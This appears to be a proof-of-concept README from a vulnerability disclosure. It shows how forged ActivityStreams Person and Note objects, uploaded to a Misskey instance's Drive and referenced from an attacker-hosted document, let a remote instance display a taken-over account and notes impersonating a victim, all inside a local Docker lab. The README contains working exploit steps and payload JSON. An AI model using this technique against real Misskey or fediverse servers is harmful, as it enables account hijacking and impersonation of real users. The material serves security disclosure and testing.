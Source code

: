 ## Misskey PoC

This PoC demonstrates a takeover attack and an impersonation attack against accounts on a remote Misskey instance.

### Environment

The PoC involves two Misskey instances and an HTTP server:

- `observer.poc.example`: A (open-registration) Misskey instance to receive the fake objects
- `victim.poc.example`: A (open-registration) Misskey instance where a supposed threat actor is going to upload fake Activity Streams documents:
- `attacker.poc.example`: A server controlled by the threat actor to host intermediary Activity Streams documents (this is a simple static HTML server)

The Docker Compose project `docker-compose.yml` sets up these servers for you. Change the working directory to this directory and run the following to start the servers:

```sh
docker-compose up -d
```

Now you should be able to open `observer.poc.example` via `http://localhost:3001/` and `victim.poc.example` via `http://localhost:3002/` with your Web browser on the host machine, which should prompt you to create an account.

In this PoC, we are going to use the following accounts, which you need to create manually:

- `@attacker@observer.poc.example`: An account registered by the threat actor
- `@takeoverVictim@victim.poc.example`: A target account of the takeover attack
- `@impersonationVictim@victim.poc.example`: A target account of the impersonation attack
- `@attacker@victim.poc.example`: An account registered by the threat actor

### Prepare fake documents

First, execute the following commands to get the user IDs of the victim accounts:

```sh
curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@takeoverVictim' | jq -r '.id' | sed 's!.*/!!' > takeoverVictim-id.txt
curl -K ../assets/curlrc -fH 'Accept: application/activity+json' 'https://victim.poc.example/@impersonationVictim' | jq -r '.id' | sed 's!.*/!!' > impersonationVictim-id.txt
```

Next, upload the following fake object files to `@attacker@victim.poc.example`'s Drive and take note of the resulting Drive URLs. Before uploading the files, you need to replace the placeholder actor URIs with the actual ones (e.g. `sed "s/deadbeef1/$(cat takeoverVictim-id.txt)/g; s/deadbeef2/$(cat impersonationVictim-id.txt)/g"`).

```json
{
  "@context": [
    "https://www.w3.org/ns/activitystreams",
    "https://w3id.org/security/v1"
  ],
  "id": "https://victim.poc.example/users/deadbeef1",
  "type": "Person",
  "following": "https://victim.poc.example/users/deadbeef1/following",
  "followers": "https://victim.poc.example/users/deadbeef1/followers",
  "inbox": "https://attacker.poc.example/inbox",
  "outbox": "https://victim.poc.example/users/deadbeef1/outbox",
  "preferredUsername": "takeoverVictim",
  "name": "TAKEN OVER",
  "summary": "THE ACCOUNT HAS BEEN TAKEN OVER BY AN ATTACKER",
  "url": "https://victim.poc.example/@takeoverVictim",
  "published": "2015-02-10T15:04:55Z",
  "publicKey": {
    "id": "https://victim.poc.example/users/deadbeef1#main-key",
    "owner": "https://victim.poc.example/users/deadbeef1",
    "publicKeyPem": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAkFqLkysr6pPyXj+O6ykx\nPMLhOe59JxZF1q2dDMWu9nnhHBxkfc0/bmCSrzjRoJrV+THbju1SZ9BXERABzKjy\nA+s561gE/9aPie22VuyCK//RcuIYhiQJ3HlCKa9w4+hLdXq7VwZ0OaZS5M4pLYls\nnD5UkWeSIMixsZS27ywZWUGY7taouuKKVGBPR6o8XcPz20VHZ5LWaGXiFvEO16Ch\n338fAqmcSOCigEL9dS9AguoJnx01028s7BqXvMb+GMer3V+W3uyNzLzHn9uXDiKe\nJ2a/lCRCGaENHXt30y0Zoq/Z4HgLYsyySKPHgNi+/xuKaFMsBGaMhK73lNd5G8TJ\ncwIDAQAB\n-----END PUBLIC KEY-----\n"
  }
}
```

```json
{
  "@context": "https://www.w3.org/ns/activitystreams",
  "id": "https://victim.poc.example/random-placeholder-to-avoid-accidental-id-collision/1",
  "type": "Note",
  "attributedTo": "https://victim.poc.example/users/deadbeef2",
  "content": "THE NOTE WAS MADE BY AN ATTACKER IMPERSONATING @impersonationVictim",
  "published": "2015-02-10T15:04:55Z",
  "to": "https://www.w3.org/ns/activitystreams#Public",
  "cc": "https://victim.poc.example/users/deadbeef2/followers"
}
```

In the subsequent steps, we assume that the documents have been uploaded to the following URLs:

- Fake Person: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-aaaaaaaaaaaa`
- Fake Note: `https://victim.poc.example/files/deadbeef-badb-adba-dbad-000000000000`

`attacker.poc.example` in the Docker Compose project hosts the following intermediary Activity Streams documents, which contain the URIs of the fake Person and fake Note respectively. You need to edit these files to replace the placeholder URIs with the actual ones before performing the PoC.

- `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/falsified-victim-mention.jsonld`])
- `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` ([`../assets/www/attacker.poc.example/objects/notes/fake-note-reply.jsonld`])

### Fetch the remote objects

Now, we are all set. Let's fetch the fake objects to finally demonstrate the exploit.

Log in as `@attacker@observer.poc.example`, open the Lookup (照会) menu item and enter `https://attacker.poc.example/objects/notes/falsified-victim-mention.jsonld` to the input, which should display a Note mentioning `@takeoverVictim@victim.poc.example`. Follow the mentioned hyperlink, and you should see a user profile saying in CAPITAL LETTERS that the account has been taken over by an attacker, if the takeover attack was successful.

The takeover attack won't work if `observer.poc.example` has fetched the victim actor before. On the other hand, the impersonation attack is always applicable regardless of the Misskey instance's prior knowledge of the victim account. We'll demonstrate that in the following steps.

Open the Lookup menu item and enter `https://victim.poc.example/@impersonationVictim`, which should display the legitimate profile of `@impersonationVictim@victim.poc.example`. The instance should now be aware of the victim account.

Next, open the Lookup menu again and enter `https://attacker.poc.example/objects/notes/fake-note-reply.jsonld` this time. You should see a note replying to another note, which should be displayed as if it's from `@impersonationVictim@victim.poc.example` and be saying in CAPITAL LETTERS that it was made by an attacker impersonating the victim, if the attack was successful.
